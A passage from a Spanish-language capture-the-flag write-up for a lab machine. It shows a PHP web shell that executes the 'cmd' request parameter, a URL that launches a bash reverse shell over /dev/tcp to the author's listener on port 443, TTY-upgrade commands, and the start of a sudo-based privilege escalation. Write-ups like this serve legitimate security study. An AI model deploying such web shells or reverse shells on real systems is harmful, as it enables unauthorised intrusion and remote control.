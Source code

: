 ```php
<?  echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"; ?>
```
{: file="shell.sh" }

Me mando una reverse shell ingresando a la siguiente url mientras en mi equipo estoy en escucha en el puerto 443 (recordar siempre url codear los ampersand).

`192.168.1.43/imgs/shell.php?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.1.24/443 0>%261"`

![Untitled](/images/2023-12-10-HVM-Minimal/Untitled%2016.png)

Antes de pasar a la siguiente fase hago un tratamiento de la TTY 

```bash
script /dev/null -c bash
ctrl+z
stty raw -echo;fg
reset xterm
export XTERM=xterm-256color
stty rows 55 columns 209 
# este ultimo paso es para que tengo colores
source /etc/skel/.bashrc
```
---

## Escalada a root

Para esta fase hago un reconocimiento incial de la máquina, buscando usuarios, permisos suid, tareas cron, servicios internos, etc. Pero al momento de hacer un `sudo -l`, me percato de que existe un binario el cual puedo ejecutar como root y sin proporcionar contraseña.

![Untitled](/images/2023-12-10-HVM-Minimal/Untitled%2017.png)

![Untitled](/images/2023-12-10-HVM-Minimal/Untitled%2018.png)
